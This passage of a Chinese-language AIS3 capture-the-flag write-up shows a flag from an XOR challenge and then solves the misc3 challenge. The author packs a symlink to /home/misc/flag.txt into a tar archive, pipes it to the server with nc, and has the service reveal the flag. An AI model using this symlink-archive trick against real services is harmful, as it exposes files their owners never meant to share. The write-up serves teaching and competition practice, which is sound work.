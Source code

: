 果然 flag 就這樣出現了，不過立刻發現無法提交，原來後面的驚嘆號是個錯誤，改成 `ais3{XoR_enCrYPtiON_15_n0t_a_G00d_idea}` 就成功了！

## misc3
Flag: `ais3{First t1me 1$sc4pe tHE S4nd80x}`

題目：
```
telnet://quiz.ais3.org:9150
(檔案) misc3.py
```

這是一個有點神秘的題目，看了一下 code 之後發現他做的事情大概就是：

1. 先問要接下來讀取的長度
2. 讀入純文字的資料（不能是 binary，要 ascii，否則會 UnicodeEncodeError）
3. 把讀到的資料存成一個檔案
4. 用 `tar xf` 打開它
5. 讀當前目錄的 `flag.txt`，把它和 tar 解壓縮出來，裡面的 `guess.txt` 比較
6. 如果上一步比較相同，就噴出 `flag.txt` 給我們

前面純文字資料的部份，正好 tar 是個純文字的檔案格式，只要裡面也是純文字就不會有任何 ascii 無法編碼的資料出現，不打緊。

不過我們不知道 flag，要怎麼讓它比對成功呢？<br>
答案是透過 UNIX 下的檔案連結：symbolic link 的方式。

因為 tar 可以完整保存 UNIX 的檔案格式、權限（整個 inode 的參數），所以包括連結指向的東西也可以保留在內，解壓縮時也會重新展開。

我們只要在本地端建立一個指到 flag 的 symbolic link，然後再包到 tar 裡面，傳給主機，
它比較的就會實指同一個檔案，最後就會給我們 flag 了！

```
$ ln -s flag.txt guess.txt
$ ls -l guess.txt
lrwxrwxrwx 1 pcchou pcchou    8 Jul 13 02:23 guess.txt -> flag.txt
$ tar cf tarf guess.txt
$ cat tarf | wc -m | cat - tarf | nc quiz.ais3.org 9150
/usr/bin/sha1sum: ./tmpotzmg755/guess.txt: No such file or directory
Different.
Traceback (most recent call last):
  File "/home/misc/misc.py", line 30, in <module>
    b = subprocess.check_output(['/usr/bin/sha1sum', os.path.join(outdir, 'guess.txt')])
  File "/usr/lib/python3.4/subprocess.py", line 620, in check_output
    raise CalledProcessError(retcode, process.args, output=output)
subprocess.CalledProcessError: Command '['/usr/bin/sha1sum', './tmpotzmg755/guess.txt']' returned non-zero exit status 1
```

疑！竟然還是出現錯誤了，該怎麼辦呢？

看來是 symlink 沒有指到對的地方的關係，不過這個錯誤訊息透漏了一個蛛絲馬跡：<br>
我們的家目錄很有可能在 `/home/misc`！<br>
而因為前面已經有 `os.chdir(os.environ['HOME'])` 的關係，所以可以確定家目錄就是當前讀檔的目錄了，

所以只要把 symlink 改指到 `/home/misc/flag.txt` 就可以成功獲取 flag：

```
$ rm guess.txt
$ ln -s /home/misc/flag.txt guess.txt
$ ls -l guess.txt
lrwxrwxrwx 1 pcchou pcchou    8 Jul 13 02:46 guess.txt -> /home/misc/flag.txt
$ tar cf tarf guess.txt
$ cat tarf | wc -m | cat - tarf | nc quiz.ais3.org 9150
ais3{First t1me 1$sc4pe tHE S4nd80x}

```
